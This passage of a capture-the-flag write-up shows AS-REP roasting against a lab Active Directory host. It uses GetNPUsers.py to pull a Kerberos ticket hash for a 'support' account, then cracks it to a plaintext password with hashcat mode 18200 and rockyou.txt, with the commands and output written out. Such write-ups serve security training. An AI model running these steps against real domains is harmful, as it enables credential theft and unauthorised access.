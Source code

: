 ```
ACheretei
ACsonaki
AHigchens
AJaquemai
...
```
Let's try some kerberoasting now.
## Kerberos
 The first thing I am going to try is checking if any account allows Kerberos pre-authentication so that we can retrieve a ticket from the Active Directory.
```
root@crab:~# GetNPUsers.py -dc-ip 10.10.10.192 BLACKFIELD.LOCAL/ -usersfile userlist.txt -no-pass
...
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$support@BLACKFIELD.LOCAL:6db92103e01883a869d0eb4f03c0bdd2$6b2c87bbd8719967ee1d030328b43a0b40a417ba77e5e811c188215de5d643194
6cdc8e0f117ce568d4a6e2be913bba150b577a1637ce0fe1278b4fa36a65858da5f164671c773872cde21985079770b16adec6a782593cd8937742e4c3d37e3c2dbf495c5
09c60c5762c123100edebd1c2825a9dfe88ccdc149cf4d2f31600904f5b57f1e556520263235e036c17e1fc33ecb689ce0921da394021f645ca064c348dabd3a1fcebc721
75b646cf146fda63edb934f669d49a4bc016c3dede902611dbfb862454d938875c650708f6501ed213b6074fd826ea6813f736caba618a71a30cb07cfd6af5b0b85037052
257c3efb60aa                                                                                                                             
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set                                                                             
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
...
```
The support account allows for Kerberos pre-authentication, we got a ticket. I am going to use hashcat to hopefully crack it. Below is an example of how to find the correct code for hashcat. We are looking for AS-REP.
```
root@crab:~# hashcat --example-hashes
...
MODE: 18200                                                                                                                              TYPE: Kerberos 5, etype 23, AS-REP
HASH: $krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$007497cb51b6c8116d6407a782ea0e1c5402b17db7afa6b05a6d30ed164a9933c754
d720e279c6c573679bd27128fe77e5fea1f72334c1193c8ff0b370fadc6368bf2d49bbfdba4c5dccab95e8c8ebfdc75f438a0797dbfb2f8a1a5f4c423f9bfc1fea483342a
11bd56a216f4d5158ccc4b224b52894fadfba3957dfe4b6b8f5f9f9fe422811a314768673e0c924340b8ccb84775ce9defaa3baa0910b676ad0036d13032b0dd94e3b1390
3cc738a7b6d00b0b3c210d1f972a6c7cae9bd3c959acf7565be528fc179118f28c679f6deeee1456f0781eb8154e18e49cb27b64bf74cd7112a0ebae2102ac
PASS: hashcat
...
```
The mode to use in this case will be 18200, lets try our luck with the rockyou.txt wordlist first. Note the '--force' option is not necessary if you are not using a VM.
```
root@crab:~# hashcat -m 18200 -a 0 hashes/support /opt/wordlists/rockyou.txt --force --show
$krb5asrep$23$support@BLACKFIELD.LOCAL:6db92103e01883a869d0eb4f03c0bdd2$6b2c87bbd8719967ee1d030328b43a0b40a417ba77e5e811c188215de5d643194
6cdc8e0f117ce568d4a6e2be913bba150b577a1637ce0fe1278b4fa36a65858da5f164671c773872cde21985079770b16adec6a782593cd8937742e4c3d37e3c2dbf495c5
09c60c5762c123100edebd1c2825a9dfe88ccdc149cf4d2f31600904f5b57f1e556520263235e036c17e1fc33ecb689ce0921da394021f645ca064c348dabd3a1fcebc721
75b646cf146fda63edb934f669d49a4bc016c3dede902611dbfb862454d938875c650708f6501ed213b6074fd826ea6813f736caba618a71a30cb07cfd6af5b0b85037052
257c3efb60aa:#00^BlackKnight
```